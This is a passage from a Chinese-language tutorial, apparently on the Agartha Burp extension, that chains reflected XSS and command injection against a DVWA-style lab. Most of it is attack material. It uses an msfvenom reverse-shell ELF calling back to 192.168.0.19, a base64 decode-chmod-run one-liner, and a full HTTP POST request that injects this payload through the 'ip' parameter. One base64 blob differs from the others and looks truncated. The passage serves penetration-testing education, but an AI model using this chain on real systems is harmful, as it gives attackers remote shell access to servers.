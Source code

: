 ### Http Request to JavaScript Converter – 2: XSS + RCE

我想在这里再举一个例子来展示这个功能有多强大，现在我们将把 XSS + RCE 问题结合起来。

- 反映的 XSS 问题：/vulnerabilities/xss_r/
- 命令注入：/vulnerabilities/exec/

首先，我们将使用 msfvenom 创建我们的恶意后门文件：

```routeros
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.19 LPORT=8008 -f elf > shell.elf
```

然后我们将其转换为 base64 编码以便于复制和粘贴：

```gcode
$ base64 -w0 shell.elf
f0VMRgEBAQAAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAADQAIAABAAAAAAAAEAAAAAAAAAAAAACACABAiYAAAA3AAAAAcAAAAAAAAAMdv341NDU2oCieGwZs2Ak1mwP82ASXn5aMCoABNoAgAfSinhsGZQUVOzA4nhzYBSavUznj2 
```

现在，我们的恶意负载将处于 3 个不同的阶段：

```shell
$ echo 'f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAiYAAAA3AAAAAcAAAAAEAAAMdv341NDU2oCieGwZs2Ak1mwP82ASXn5aMCoABNoAgAfSInhsGZQUVOzA4nhzYBSaG4vc2hoLy9iaYnjUlOJ4bALzYA=' | base64 -d >/tmp/shell.elf;chmod 777 /tmp/shell.elf;/tmp/shell.elf
```

从之前的 Agartha 功能中，我们找到了一个有效的命令注入有效载荷：

```http
POST http://vm/vulnerabilities/exec/ HTTP/1.1
Host: vm
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://vm
Connection: close
Referer: http://vm/vulnerabilities/exec/
Cookie: PHPSESSID=8qdbvrqrj753qe6qgatukb3g81; security=low
Upgrade-Insecure-Requests: 1

ip=localhost%3B%60echo+%27f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAiYAAAA3AAAAAcAAAAAEAAAMdv341NDU2oCieGwZs2Ak1mwP82ASXn5aMCoABNoAgAfSInhsGZQUVOzA4nhzYBSaG4vc2hoLy9iaYnjUlOJ4bALzYA%3D%27+%7C+base64+-d+%3E%2Ftmp%2Fshell.elf%60%3B%60chmod+777+%2Ftmp%2Fshell.elf%60%3B%60%2Ftmp%2Fshell.elf%60&Submit=Submit
```

‘ *id* ‘参数应该是：

```awk
localhost;`echo 'f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAiYAAAA3AAAAAcAAAAAEAAAMdv341NDU2oCieGwZs2Ak1mwP82ASXn5aMCoABNoAgAfSInhsGZQUVOzA4nhzYBSaG4vc2hoLy9iaYnjUlOJ4bALzYA=' | base64 -d >/tmp/shell.elf`;`chmod 777 /tmp/shell.elf`;`/tmp/shell.elf`
```
